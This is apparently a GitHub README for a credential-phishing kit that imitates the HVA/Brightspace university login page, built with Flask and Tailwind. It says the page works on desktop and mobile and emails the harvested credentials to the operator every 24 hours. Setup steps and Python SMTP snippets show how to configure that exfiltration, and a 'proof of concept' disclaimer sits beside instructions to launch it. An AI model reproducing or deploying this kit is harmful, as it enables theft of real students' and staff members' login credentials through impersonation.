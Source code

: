 # HVA / Brightspace Login phishing page

This phishing page is a proof of concept and should not be used for any illegal activity!

![image](https://user-images.githubusercontent.com/99695922/207714240-ba838eb2-645c-4b43-85fa-1a69ddc4bb4e.png)


The phishing page works on desktop and mobile. Every 24 hours it will send a email with the harvested credentials to  a email of your liking.

This was made with [Tailwind](https://tailwindcss.com/) for the front-end and [Flask](https://flask.palletsprojects.com/en/2.2.x/) for the back-end.


## Installation

Clone this repository.

Then use the package manager [pip](https://pip.pypa.io/en/stable/) to install packages.

```bash
pip install -r requirements.txt
```

## Setup
Open app.py

change YOUR_SECRET_KEY to a secret key of your liking.

```python
app = Flask(__name__)
app.config['SECRET_KEY'] = 'YOUR_SECRET_KEY'
```
Change FROM_EMAIL to the email you are going to send then mail from.
Change TO_EMAIL to the email you are going to send the email to.

```python
    email = EmailMessage()
    email['Subject'] = f'information {datetime.datetime.now()}'
    email['From'] = 'FROM_EMAIL'
    email['To'] = 'TO_EMAIL'
```

Change FROM_EMAIL to the email you are going to send then mail from.

Change FROM_EMAIL_PASSWORD to the email password you are going to send the email from. Make sure the password you provided is compatible with the [SMTP servers](https://support.leapwork.com/s/article/HowcanIgetmySMTPserverPortusernamepassword633070924e681) from your email provider!

```python
    with smtplib.SMTP("smtp.office365.com", 587) as s:
        s.starttls()
        s.login('FROM_EMAIL', 'FROM_EMAIL_PASSWORD')
        s.send_message(email)
```

Change smtp.office365.com to the SMTP server of your provider, if your email provider is Office365 then you can skip this stap.
Change 587 to the port of the SMTP server the email provider uses.
Big ones: [Microsoft](https://support.microsoft.com/nl-nl/office/pop-imap-en-smtp-instellingen-8361e398-8af4-4e97-b147-6c6c4ac95353) , [Gmail](https://support.google.com/a/answer/176600?hl) and [Yahoo](https://help.yahoo.com/kb/SLN4724.html?guccounter=1&guce_referrer=aHR0cHM6Ly93d3cuZ29vZ2xlLmNvbS8&guce_referrer_sig=AQAAADrjXz1-m11zrZhIx972CRNXarnhPdnhwhb85biWlHoDK_LTW9LTFNnj4zCxcvZzG0NTwWgTJOGD67JVD1jcXtVi1udPhmZia8U5Aqud5CVQxVaFRz2ZwbLbR8l5fMSoYJSXFV4NBSnk8z2pubhMMWBtSs1mXrzKIJAjjePa9_FL).

Ones everthing is done close and save app.py
then click one the LAUNCH.bat and see for your self!


## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://choosealicense.com/licenses/mit/)
